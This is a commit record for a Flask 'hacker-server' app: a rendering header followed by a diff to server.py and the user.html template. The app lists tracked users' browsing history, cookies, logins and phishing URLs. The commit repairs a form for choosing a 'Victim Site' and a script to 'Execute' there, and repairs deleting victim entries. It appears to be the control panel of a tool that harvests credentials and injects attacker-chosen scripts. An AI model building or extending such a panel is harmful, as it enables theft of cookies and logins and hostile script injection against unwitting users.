

Before and after one commit to swuleung/ac.js, a Flask app: template hacker-server/templates/user.html in a window 1280 px wide. Shown: the part 389-924 px from the top of the page. Run offline with Flask 2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020); some libraries are stand-ins or nearby versions.

Commit message:
adding victim url and script works again, so does deleting

```diff
--- a/hacker-server/server.py
+++ b/hacker-server/server.py
@@ -30,9 +30,10 @@ def view_user(email):
     logs = login.get_logins_by_user(email)
     secure_urls = secure.getFromSecure(email)
     random_urls = secure.getFromRandom(email)
+    victim_urls = victim.getFromVictim(email)
     phish_urls = phish.get_phish_by_user(email)
 
-    return render_template('user.html', email=email, history=hist, cookies=cook, logins=logs, secure_urls = secure_urls, random_urls = random_urls, phish_urls = phish_urls)
+    return render_template('user.html', email=email, history=hist, cookies=cook, logins=logs, secure_urls = secure_urls, random_urls = random_urls, phish_urls = phish_urls, victim_urls=victim_urls)
 
 ########### SECURE ###########
 @app.route('/addSecure/<email>', methods=['POST'])
@@ -77,13 +78,13 @@ def add_victim(email):
         url = request.form['victim_url']
         script = request.form['execute-script']
         victim.addToVictim(email, script, url)
-        return redirect(url_for('index'))
+        return redirect(url_for('view_user', email=email))
 
-@app.route('/deleteVictim/<email>/<url>/', methods=['POST'])
+@app.route('/deleteVictim/<email>/<url>', methods=['POST'])
 def delete_victim(email, url):
     if request.method == 'POST':
         victim.removeFromVictim(email, url)
-        return redirect(url_for('index'))
+        return redirect(url_for('view_user', email=email))
 
 @app.route('/get_victim/<email>', methods=['GET'])
 def get_victim(email):
--- a/hacker-server/templates/user.html
+++ b/hacker-server/templates/user.html
@@ -59,9 +59,9 @@
     <div>
         <label for="execute-script">Execute Script</label>
     </div>
-    <form action="{{ url_for('execute_script', email=email) }}" method="POST">
+    <form action="{{ url_for('add_victim', email=email) }}" method="POST">
         <div class="form-group">
-            <textarea class="form-control" name="script" id="execute-script" rows="4" placeholder="<script>alert('Hello');</script>"
+            <textarea class="form-control" name="execute-script" id="execute-script" rows="4" placeholder="<script>alert('Hello');</script>"
                 required></textarea>
         </div>
         <label for="victim_url">Victim Site</label>
@@ -77,12 +77,12 @@
             </tr>
         </thead>
         <tbody>
-            {% for url in secure_urls %}
+            {% for url in victim_urls %}
             <tr>
-                <td>{{url}}</td>
-                <td>A script</td>
+                <td>{{url[0]}}</td>
+                <td>{{url[1]}}</td>
                 <td>
-                    <form action="{{ url_for('delete_secure', email=email, url=url) }}" method="POST">
+                    <form action="{{ url_for('delete_victim', email=email, url=url[0]) }}" method="POST">
                         <button type="submit" class="btn btn-danger">Delete</button>
                     </form>
                 </td>
```
